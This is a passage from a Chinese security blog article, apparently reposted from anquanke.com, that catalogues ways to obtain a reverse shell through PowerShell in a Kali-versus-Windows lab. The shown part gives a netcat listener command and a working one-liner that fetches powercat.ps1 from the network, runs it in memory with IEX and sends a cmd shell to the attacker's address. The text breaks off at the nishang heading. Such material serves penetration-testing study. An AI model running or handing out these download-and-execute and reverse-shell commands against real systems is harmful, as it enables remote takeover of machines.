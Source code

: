 > 原文链接: https://www.anquanke.com//post/id/99793 


# powershell反弹shell常见方式


                                阅读量   
                                **529932**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">6</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01b73fecd597edcc66.jpg)](https://p4.ssl.qhimg.com/t01b73fecd597edcc66.jpg)



> <p>本文整理了通过powershell反弹shell的常见方式。利用powercat、dnscat2、nishang、Empire、PowerSploit、Metasploit、Cobalt strike、powershell自定义函数等方式反弹TCP/UDP/HTTP/HTTPS/ICMP/DNS等类型shell。<br>**测试环境说明**<br>
攻击者：KALI2.0 32位 192.168.159.134<br>
攻击者2：Ubuntu 14.04 LTS 192.168.159.129 （仅在dnscat2 反弹DNS shell中使用）<br>
目标机：Windows Server 2008 X64 192.168.159.138</p>



## powercat反弹shell

powercat（[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat) ）为Powershell版的Netcat，实际上是一个powershell的函数，使用方法类似Netcat

攻击者(192.168.159.134)开启监听：<br>`nc -lvp 6666`<br>
或者使用powercat监听<br>`powercat -l -p 6666`

目标机反弹cmd shell：

```
powershell IEX (New-Object System.Net.Webclient).DownloadString
('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 192.168.159.134 -p 6666 -e cmd
```

[![](https://p4.ssl.qhimg.com/t01abbf16b5183e0f63.png)](https://p4.ssl.qhimg.com/t01abbf16b5183e0f63.png)

[![](https://p4.ssl.qhimg.com/t01be47bdd840ef65d9.png)](https://p4.ssl.qhimg.com/t01be47bdd840ef65d9.png)



## nishang反弹shell

